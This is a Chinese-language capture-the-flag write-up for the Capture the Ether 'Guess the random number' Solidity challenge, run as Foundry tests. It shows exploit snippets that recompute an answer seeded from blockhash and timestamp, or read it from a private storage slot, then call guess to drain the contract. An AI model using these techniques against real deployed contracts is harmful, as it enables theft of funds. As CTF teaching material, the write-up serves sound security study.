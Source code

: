 # Guess the random number

## 题目描述

[原题链接](https://capturetheether.com/challenges/lotteries/guess-the-random-number/)

原题目要求 GuessTheRandomNumberChallenge 合约里面的余额为 0。而调用 guess 并输入答案，如果答案等于 answer 即可转移 2 ether 出去。

## 运行

**安装 Foundry**

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Lotteries/Guess_the_random_number -vvv
```

## 功能简述

在 GuessTheRandomNumberChallenge 合约中，设置了一个 secret 变量 answer，并在部署时使用 blockhash，block.timestamp
等初始化：
```solidity
contract GuessTheRandomNumberChallenge {
    uint8 answer;

    constructor() payable {
        require(msg.value == 1 ether);
        answer = uint8(uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
    }
    ...
}
```
因此我们有两个思路来完成挑战。

**思路 1**

既然部署时的 block.number, block.timestamp 是可以拿到的，我们可以记录这些值，然后计算出 answer，这就是 testGuessTheRandomNumber1 的解决思路：
```solidity
        // Suppose several blocks have passed
        vm.roll(deployBlockNumber+10);

        uint8 answer = uint8(uint(keccak256(abi.encodePacked(blockhash(deployBlockNumber - 1), deployTime))));
        emit log_named_uint("answer", answer);

        vm.startPrank(hacker);
        guessTheRandomNumberChallenge.guess{value: 1 ether}(answer);
        vm.stopPrank();
```

**思路 2**

answer 虽然是私有变量，但是我们可以通过 GuessTheRandomNumberChallenge 本地的 storage 布局以及 json-rpc 里面的 [eth_getStorageAt](https://ethereum.org/en/developers/docs/apis/json-rpc/#eth_getstorageat) 得到答案：

```sh
forge inspect ./src/Capture_the_Ether/Lotteries/Guess_the_random_number/GuessTheRandomNumberChallenge.sol:GuessTheRandomNumberChallenge storage --pretty
| Name   | Type  | Slot | Offset | Bytes | Contract                                                                                                                |
| ------ | ----- | ---- | ------ | ----- | ----------------------------------------------------------------------------------------------------------------------- |
| answer | uint8 | 0    | 0      | 1     | src/Capture_the_Ether/Lotteries/Guess_the_random_number/GuessTheRandomNumberChallenge.sol:GuessTheRandomNumberChallenge |
```

可以看出 slot 0 就存储了 answer。在本地测试中，我们使用 foundry 的 cheatcode: `vm.load()` 来代替 `eth_getStorageAt`，这是 testGuessTheRandomNumber2 的思路：

```solidity
        // 获取 slot 0 里面的值，这里就是 answer。
        uint answer = uint(vm.load(address(guessTheRandomNumberChallenge), bytes32(uint(0))));

        emit log_named_uint("answer", answer);

        vm.startPrank(hacker);
        guessTheRandomNumberChallenge.guess{value: 1 ether}(uint8(answer));
        vm.stopPrank();
```
